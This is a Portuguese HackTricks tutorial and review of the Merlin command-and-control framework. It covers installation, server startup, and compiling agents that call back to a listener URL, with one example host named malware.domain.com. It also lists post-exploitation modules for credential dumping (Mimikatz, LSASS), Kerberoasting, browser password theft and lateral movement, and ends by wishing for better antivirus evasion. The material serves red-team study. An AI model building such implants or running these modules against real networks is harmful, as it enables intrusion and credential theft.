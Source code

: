 <details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>


# Instalação

## Instalar GO
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## Instalar Merlin

```bash
git clone https://github.com/Ne0nd0g/merlin.git
cd merlin
pip install -r requirements.txt
```
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# Iniciar o Servidor Merlin
```
go run cmd/merlinserver/main.go -i
```
# Agentes do Merlin

Você pode [baixar agentes pré-compilados](https://github.com/Ne0nd0g/merlin/releases)

## Compilar Agentes

Vá para a pasta principal _$GOPATH/src/github.com/Ne0nd0g/merlin/_
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **Compilação manual de agentes**
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# Módulos

**A má notícia é que cada módulo usado pelo Merlin é baixado da fonte (Github) e salvo no disco antes de ser usado. Tenha cuidado ao usar módulos conhecidos, pois o Windows Defender irá detectá-los!**


**SafetyKatz** --> Mimikatz modificado. Faz dump do LSASS para arquivo e executa: sekurlsa::logonpasswords para esse arquivo\
**SharpDump** --> minidespejo para o ID do processo especificado (LSASS por padrão) (É dito que a extensão do arquivo final é .gz, mas na verdade é .bin, embora seja um arquivo .gz)\
**SharpRoast** --> Kerberoast (não funciona)\
**SeatBelt** --> Testes de segurança local em CS (não funciona) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> Compila usando csc.exe /unsafe\
**Sharp-Up** --> Todos os checks em C# no powerup (funciona)\
**Inveigh** --> Ferramenta de spoofing e de homem-no-meio PowerShell ADIDNS/LLMNR/mDNS/NBNS (não funciona, precisa carregar: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)\
**Invoke-InternalMonologue** --> Impersonifica todos os usuários disponíveis e obtém um desafio-resposta para cada um (hash NTLM para cada usuário) (URL ruim)\
**Invoke-PowerThIEf** --> Rouba formulários do IExplorer ou faz com que ele execute JS ou injete uma DLL nesse processo (não funciona) (e o PS também parece não funcionar) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> Obtém senhas do navegador (funciona, mas não imprime o diretório de saída)\
**dumpCredStore** --> API do Gerenciador de Credenciais Win32 (https://github.com/zetlen/clortho/blob/master/CredMan.ps1) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> Detecta injeção clássica em processos em execução (Injeção Clássica (OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)) (não funciona)\
**Get-OSTokenInformation** --> Obtém informações do token dos processos e threads em execução (Usuário, grupos, privilégios, proprietário… https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class)\
**Invoke-DCOM** --> Executa um comando (em outro computador) via DCOM (http://www.enigma0x3.net.) (https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)\
**Invoke-DCOMPowerPointPivot** --> Executa um comando em outro PC abusando dos objetos COM do PowerPoint (ADDin)\
**Invoke-ExcelMacroPivot** --> Executa um comando em outro PC abusando do DCOM no Excel\
**Find-ComputersWithRemoteAccessPolicies** --> (não funciona) (https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/)\
**Grouper** --> Faz dump de todas as partes mais interessantes da política de grupo e depois procura por coisas exploráveis. (obsoleto) Dê uma olhada no Grouper2, parece muito bom\
**Invoke-WMILM** --> WMI para mover lateralmente\
**Get-GPPPassword** --> Procura por groups.xml, scheduledtasks.xml, services.xml e datasources.xml e retorna senhas em texto simples (dentro do domínio)\
**Invoke-Mimikatz** --> Usa o mimikatz (dump de credenciais padrão)\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> Verifica os privilégios dos usuários nos computadores\
**Find-PotentiallyCrackableAccounts** --> Obtém informações sobre contas de usuário associadas ao SPN (Kerberoasting)\
**psgetsystem** --> getsystem

**Não verifiquei os módulos de persistência**

# Resumo

Gosto muito da sensação e do potencial da ferramenta.\
Espero que a ferramenta comece a baixar os módulos do servidor e integre algum tipo de evasão ao baixar scripts.
